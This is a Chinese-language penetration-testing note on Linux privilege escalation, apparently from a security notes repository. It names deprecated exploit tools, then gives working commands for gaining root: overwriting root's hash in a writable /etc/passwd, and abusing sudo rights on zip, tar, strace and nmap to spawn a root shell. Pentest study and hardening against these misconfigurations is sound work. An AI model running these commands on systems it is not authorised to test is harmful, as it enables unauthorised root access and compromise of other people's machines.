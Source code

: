
> 以下工具长期未更新,不推荐
- [sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker) - 长期未更新，不推荐
- [lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits) - 长期未更新，不推荐
- [Kabot/Unix-Privilege-Escalation-Exploits-Pack](https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack) - 长期未更新，不推荐
- [InteliSecureLabs/Linux_Exploit_Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester) - 长期未更新，不推荐

**信息收集**

linux 提权需要掌握系统的许多信息,命令参见笔记 [信息](../../../../运维/Linux/笔记/信息.md) 内容

---

## Linux系统配置

**若 /etc/passwd 文件可修改**

> 梦想总得有,万一真的可以成功呢
```bash
openssl passwd -1   # 输入你想改成的密码,用得到的 hash 去替换 root 行的 x
python -c 'import pty; pty.spawn("/bin/bash")'
```
然后 su root,输入上一步改的密码

### sudo

```bash
sudo -l # 查看当前用户执行哪些 sudo 命令无需密码
```

下面只记录部分,更多内容访问 [GTFOBins](https://gtfobins.github.io/)

- zip
    ```bash
    sudo zip /tmp/tmp.zip /tmp/ -T --unzip-command="sh -c /bin/bash"

    -T 表示测试 test.zip 的完整性
    –unzip-command 与 -T 一起使用，可以指定自定义命令用于解压 test.zip
    ```

- tar
    ```bash
    sudo tar cf /dev/null test --checkpoint=1 --checkpoint-action=exec=/bin/bash

    –checkpoint-action 选项是提权点,可以自定义需要执行的动作
    ```

- strace
    ```bash
    sudo strace -o /dev/null /bin/bash
    ```

- nmap

    低版本的 nmap3.x 有 interactive 模式，且设置了 suid，这个时候可以进入交互模式 执行 !sh 命令即可轻松完成提权。
    ```bash
    echo "os.execute('/bin/bash')" > /tmp/shell.nse
    sudo nmap --script=/tmp/shell.nse
    ```
